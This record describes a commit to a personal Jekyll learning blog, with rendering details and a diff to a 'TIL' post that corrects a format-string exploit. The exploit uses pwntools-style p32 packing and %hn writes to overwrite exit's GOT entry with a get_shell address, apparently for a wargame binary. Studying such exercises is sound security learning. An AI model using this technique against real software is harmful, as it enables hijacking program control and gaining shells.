

Before and after one commit to cw00h/cw00h.github.io, a Jekyll site: the page built from _posts/2022-08-08-TIL220808.md, in a window 1280 px wide and 900 px high, scrolled down 9039 px. Shown: the part 152-461 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; comment, search, counter and statistics services are not loaded.

Commit message:
Docs: Fix typo in TIL220808.md

```diff
--- a/_posts/2022-08-08-TIL220808.md
+++ b/_posts/2022-08-08-TIL220808.md
@@ -315,11 +315,11 @@ get_shell = 0x08048609
 exit_got = 0x804a024
 
 payload = p32(exit_got)
-payload += p32(exit_got)
+payload += p32(exit_got + 2)
 
-s = "%{}c".format(0x0804 - 8)
+s = "%{}c".format(0x8609 - 8)
 s += "%1$hn"
-s += "%{}c".format(0x8609 - 0x0804)
+s += "%{}c".format(0x0804 - 0x8609 + 0x10000)
 s += "%2$hn"
 
 payload += s.encode()
```
